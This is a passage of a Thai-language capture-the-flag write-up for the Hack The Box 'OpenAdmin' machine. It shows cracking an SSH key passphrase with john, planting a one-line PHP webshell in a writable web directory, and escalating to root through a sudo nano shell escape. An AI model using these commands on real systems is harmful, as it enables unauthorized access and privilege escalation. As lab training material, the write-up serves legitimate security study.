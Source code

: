 เราสามารถแปลง private key ให้อยู่ใน format ที่ `john` สามารถ crack ได้ด้วย command `python /usr/share/jogn/ssh2john.py privkey > privkey.hash` จากนั้นเริ่ม crack ด้วย command `john privkey.hash --wordlist=/usr/share/wordlists/rockyou.txt`

**และแล้วเราก็ได้ passphrase!**

{{< img src="/images/writeup/htb_openadmin/internal_privkey_crack.png">}}

ในที่สุด เราก็จะ `ssh` ไปที่เครื่องปลายทางได้ด้วย private key ที่ได้มา และใช้ passphrase เป็น `bloodninjas`

{{< img src="/images/writeup/htb_openadmin/joanna_ssh.png">}}

### Another Solution

มีอีกวิธีที่เราใช้ในการเข้าถึง `joanna` ได้ ถ้ากลับไปดู เราจะเห็นว่า `jimmy` เป็น owner ของ directory `/var/www/internal` เท่ากับว่าเราสามารถเขียนไฟล์ หรือแก้ไฟล์ในนี้ได้เลย

{{< img src="/images/writeup/htb_openadmin/internal.png">}}

เราสามารถเขียน PHP webshell ง่าย ๆ ไว้ในนั้น โดยใช้ command `echo '<?php echo shell_exec($_GET["cmd"]); ?>' > cmd.php` จากนั้นเราก็ใช้ `curl` เพื่อรัน command ด้วยสิทธิ์ของ `joanna` ได้เลย โดยใช้ command `curl localhost:52846/cmd.php?cmd=[COMMAND]`

{{< img src="/images/writeup/htb_openadmin/internal_joannacmd.png">}}

เราอาจใช้วิธีนี้ในการดึง private key ออกมา หรือเอา public key ของเครื่องเราไปใส่ไว้ใน `/home/joanna/.ssh/authorized_keys` ก็ได้

## Privilege Escalation

การ escalate บนเครื่องนี้ค่อนข้างจะตรงไปตรงมา ลองใช้ `sudo -l` จะเห็นว่าเรารัน `nano` ด้วยสิทธิ์ `root` ได้โดยไม่ต้องใช้ password

{{< img src="/images/writeup/htb_openadmin/joanna_nano.png">}}

จากเว็บ <https://gtfobins.github.io/gtfobins/nano/> เราจะเห็นว่าเราสามารถใช้ `sudo` กับ `nano` เพื่อ escalate เป็น `root` ได้เลย

{{< img src="/images/writeup/htb_openadmin/gtfobins.png">}}

ลองรัน `nano` ด้วย `sudo`

{{< img src="/images/writeup/htb_openadmin/priv1.png">}}

กด `Ctrl-R` แล้วกด `Ctrl-X`

{{< img src="/images/writeup/htb_openadmin/priv2.png">}}

พิมพ์ `reset; sh 1>&0 2>&0` จากนั้นกด `Enter`

{{< img src="/images/writeup/htb_openadmin/priv3.png">}}

กด `Enter` สักสองสามทีเพื่อเคลียร์จอ จะเห็นว่าเราได้ยกสิทธิ์ตัวเองเป็น `root` เรียบร้อย

{{< img src="/images/writeup/htb_openadmin/root.png">}}
